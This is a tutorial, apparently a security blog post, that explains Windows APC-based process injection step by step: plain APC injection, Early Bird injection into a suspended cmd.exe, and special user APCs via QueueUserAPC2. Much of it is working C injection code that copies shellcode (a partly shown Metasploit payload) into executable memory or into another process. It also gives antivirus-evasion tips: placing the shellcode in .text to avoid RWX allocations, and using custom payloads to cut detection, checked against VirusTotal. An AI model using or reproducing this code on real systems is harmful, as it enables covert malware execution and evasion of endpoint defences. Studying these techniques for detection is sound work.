

# APC Injection

## Introduction

APC (Asynchronous Procedure Call) is a function that executes asynchronously (as the name suggests) in the context of a particular thread. These are generally used for I/O stuff, etc. \
Each thread has its own APC queue. An application queues an APC to a thread by calling the [**QueueUserAPC**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) function. The calling thread specifies the address of an APC function in the call to **QueueUserAPC**.  When an APC is queued, a request is made for the thread to call the APC function.

It's like OS saying to the thread "Hey, look at this whenever you have the time." Now the importante thing to note is that it is only possible to queue an APC for a thread if and only if that particular thread is in alertable state. According to MSDN

> A thread enters an alertable state when it calls the [**SleepEx**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex), [**SignalObjectAndWait**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait), [**MsgWaitForMultipleObjectsEx**](https://learn.microsoft.com/en-us/windows/desktop/api/Winuser/nf-winuser-msgwaitformultipleobjectsex), [**WaitForMultipleObjectsEx**](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex), or [**WaitForSingleObjectEx**](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex).

&#x20;If we queue the APC for any non-alertable thread, we would have to wait until it goes into an alertable state and then it will run our code.&#x20;

Now let's take a look at the function [**QueueUserAPC**](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)**.**

```c
DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);
```

* <mark style="color:purple;">**dwData**</mark> - A single value that is passed as parameter to the function to be called.
* <mark style="color:purple;">**hThread**</mark> - Handle to the thread in alertable state. It must have the **THREAD\_SET\_CONTEXT** access right.
* <mark style="color:purple;">**pfnAPC**</mark> - A pointer to the APC Function to be called.

If the function succeeds, the return value will be non-zero, else it will be 0 (failure).

### Simple explaination

Imagine you work in a company and you are currently doing an important task which will take you an hour to do. But then your boss comes in and hands you some files to verify later. Now you have become a thread and your boss has queued an APC call, you won't stop your work immediately to do the verification but you will have to do it after you finish your task. This is the case with Regular APC calls.

Special User-Mode APC calls are a bit special. Now imagine the same scenario where you are doing the task but this time, the CEO of your company has approached you with a "really important" task to do it immediately. You would then have to pause your work and finish the CEO's work first and only then resume what you were doing. The problem here is that since you have only 1 notebook and you do both of the work in it, there is a possibility of "[race condition](https://en.wikipedia.org/wiki/Race_condition)" and messing things up. That's why special care needs to be taken when running the special APC.


## Execution Flow

1. Create a thread that runs any function which allows it to switch to alertable state.
2. Inject the shellcode into Process Memory.
3. Call QueueUserAPC with the shellcode base address as the function.

## APC Injection

Alright, so first we will create another function which would contain any of the function that helps the thread to switch to alertable state. Those are  [`SleepEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-sleepex)`,`[`SignalObjectAndWait`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-signalobjectandwait)`,`[`WaitForSingleObjectEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobjectex)`,`[`WaitForMultipleObjectsEx`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitformultipleobjectsex)`,` [`MsgWaitForMultipleObjectsEx`](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-msgwaitformultipleobjectsex). I have used `SleepEx` for simplicity. Note that the 2nd Parameter should be set to `TRUE` for the Thread to go in alertable state.

```c
VOID Aleeert() {
	info("Thread ID : %d", GetCurrentThreadId());
	SleepEx(INFINITE, TRUE);
}
```

Now we just have to allocate memory for our shellcode and give it to the `QueueUserAPC` to run it.

```c
int main() {
	HANDLE hThread = NULL;
	info("Main Thread : %d", GetCurrentThreadId());
	hThread = CreateThread(NULL, 0, Aleeert, 0, 0, NULL);
	
	PVOID pFunc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(pFunc, shellcode, sizeof(shellcode));
	
	//Sleep(1);

	// Not necessary to typecast pFunc but me do me
	QueueUserAPC((PAPCFUNC)pFunc, hThread, NULL);
	// if we don't wait for the thread to finish execution
	// program exits before the thread is able to run our shellcode
	WaitForSingleObject(hThread, INFINITE);
	CloseHandle(hThread);

	return 0;
}
```

Here I did notice that if we do not have the Sleep function, I don't see the print statement in the function although the thread does execute our shellcode&#x20;

<figure><figcaption></figcaption></figure>

But when I do have the Sleep function, I see the print statement in the `Aleeert` function. After a failed chatgpt interaction and a little document searching, I found this on MSDN,

> If an application queues an APC before the thread begins running, the thread begins by calling the APC function. After the thread calls an APC function, it calls the APC functions for all APCs in its APC queue.

So it means that our code was queued even before the thread got the time to run the function, this I can prove by removing the `SleepEx` function which means that our **thread** should not be in the **alertable** state yet it runs our shellcode because of us queueing it before it can even run.

<figure><figcaption></figcaption></figure>

One thing to note is that we still are allocating memory with `PAGE_EXECUTE_READWRITE` which is a **very big red flag** that we are doing something suspicious. We can eliminate that by allocating our shellcode to the `.text` section as I have shown here\[link] previously.

```c
#pragma section(".text")

__declspec(allocate(".text")) char shellcode[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
....
```

And we see that we are able to execute our shellcode neatly without allocating any RWX memory.

<figure><figcaption></figcaption></figure>

Alright since we technically haven't played with alertable thread yet, I'll create a thread that goes into alertable state and only then do we queue the APC for it to run.

<figure><figcaption></figcaption></figure>

We know that the thread was in alertable state since it did ran our shellcode, you can try removing the `SleepEx` function and run the program again, the shellcode won't run since the thread wont be in alertable state.

## VirusTotal

Out of curiousity, I wanted to check this against VirusTotal and I was kinda surprised at the rate of detection ( 423094eabcc7ffa09ba35d3c6df2d3a4cecc9505fcd9bb4e629cb675c2e5e122 ). I have used the binary where I allocate shellcode in `.text` section.

<figure><figcaption></figcaption></figure>

This is not bad because almost all of them AV flagged this because of the msf payload, so if we were to use any other custom payload, the rate will go considerably low.

## Early Bird APC Injection

So what's is Early Bird APC Injection? how is it different than APC Injection ? The answer is simple, here instead of creating a suspended thread, we create a suspended process (note that the main thread will also be in suspended state) and then queue the APC call pointing to the allocated memory for our shellcode. The code is really simple, we can create a suspended process by providing the `CREATE_SUSPENDED` flag to the `CreateProcessA` API.

```c
VOID earlyBirdAPC() {
	
	STARTUPINFOA si = { 0 };
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA("C:\\Windows\\System32\\cmd.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	HANDLE hProcess = pi.hProcess,
		hThread = pi.hThread;
	
	LPVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (pAddr == NULL) {
		exit(2);
	}

	WriteProcessMemory(hProcess, pAddr, shellcode, sizeof(shellcode), 0);
	QueueUserAPC(pAddr, hThread, NULL);
	ResumeThread(hThread);

}
```

<figure><figcaption></figcaption></figure>

Note that since the thread was is suspended state, it directly runs all of the APC routine (which is just 1 in our case) and exits which is why we don't see a CMD spawn, if we look at it using Process Hacker , we can see that the cmd.exe is created in suspended state, but it exits after the calculator has been spawned. I had to use `getchar()` to be able to screenshot the suspended Process & Thread and here it is

<figure><figcaption></figcaption></figure>

note that the main thread is the thread of the actual malicious process and not the victim process.

if you want to go deep into this then  you can surely checkout [repnz's blog](https://repnz.github.io/posts/apc/user-apc/) on it, he has explained it in more depth.

## Special APC (Bonus)

This [**MSDN Page**](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs) talks about different types of APC's and we see that there is another special user-mode APC. We can use the [`QueueUserAPC2`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2) function with a [special flag](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ne-processthreadsapi-queue_user_apc_flags) to make our APC "special".

> Special user-mode APCs always execute, even if the target thread is not in an alertable state. For example, if the target thread is currently executing user-mode code, or if the target thread is currently performing an alertable wait, the target thread will be interrupted immediately for APC execution. If the target thread is executing a system call, or performing a non-alertable wait, the APC will be executed after the system call or non-alertable wait finishes (the wait is not interrupted).

I genuinely don't know why it does work on Windows 10 even though the minimum support client version is Windows 11 Build 22000 given on [QueueUserAPC2 page](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2). But if it does, it does and so I'll show you how it works practically.

<mark style="color:red;">**Important Note**</mark> : Please avoid using this APC with legitimate processes, unless you do you, because it makes the thread interrupt immediately which _may_ crash your PC.

Anyways, looking at the function, it is very similar to its prequel and it seems that it acts just like a normal APC if don't pass any flags, and for special APC, we can pass the `QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC` flag which is just a 1.

```c
BOOL QueueUserAPC2(
  PAPCFUNC             ApcRoutine,
  HANDLE               Thread,
  ULONG_PTR            Data,
  QUEUE_USER_APC_FLAGS Flags
);

typedef enum _QUEUE_USER_APC_FLAGS {
  QUEUE_USER_APC_FLAGS_NONE,
  QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC,
  QUEUE_USER_APC_CALLBACK_DATA_CONTEXT
} QUEUE_USER_APC_FLAGS;

// Below is from processthreadsapi.h

    QUEUE_USER_APC_FLAGS_NONE               = 0x00000000,
    QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC   = 0x00000001,
    //
    // Used for requesting additional callback data.
    //
    QUEUE_USER_APC_CALLBACK_DATA_CONTEXT    = 0x00010000, // 65536
```

To give an example of how the thread execution is stopped immediately, I wrote a small function that will keep a thread busy for a while. It was important because the thread finished its execution even before I could queue the APC call.

```c
VOID noAleeert() {
	info("Thread ID noAlert : %d", GetCurrentThreadId());
	for (size_t i = 0; i < 50000; i++) {
		// If printing these many is unfavorable then 
		// Loop till 50, with a Sleep(1) or below 30 imo
		// Sleep(1);
		printf(" %d ",i);
	}
}

QueueUserAPC2(shellcode, hThread, NULL, QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC);

```

We see that even though the thread was supposed to execute a long loop but it was stopped in the middle of its execution to run our special APC.&#x20;

<figure><figcaption></figcaption></figure>

Also another thing to note is that the thread does resume it's execution after it has finished running the special APC. In our case, it _could_ be the shellcode that causes it to exit immediately (This is just my guess, if you know then please reach out to me). We can see this with another example, here I will have a global variable `COUNT` which I will reset using the special APC. This also shows how the APC can disrupt the normal execution and change the data.

```c
SIZE_T COUNT = 5;

VOID testt() {
	info("I ran because im special");
	COUNT = 0;
}
//
QueueUserAPC2((PAPCFUNC)testt, hThread, NULL, QUEUE_USER_APC_FLAGS_SPECIAL_USER_APC);
```

<figure><figcaption></figcaption></figure>

We can see that the thread stops execution at 13, runs the special APC, and then continues its execution again until 35 at which the loop ends (14 + 36 = 50).

Alright that's it for now, This became lengthier than what I was expecting but was real fun as well, ciao. I'll be back with more interesting techniques to talk about, probably system calls, but there are soo many more things to explore. Hopefully, I was good enough to help you understand how this works.

## References

* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)
* [https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer](https://repnz.github.io/posts/apc/user-apc/#ntqueueapcthread-system-call-layer)
* [https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/types-of-apcs)
* [https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc2)
* [https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection](https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection)


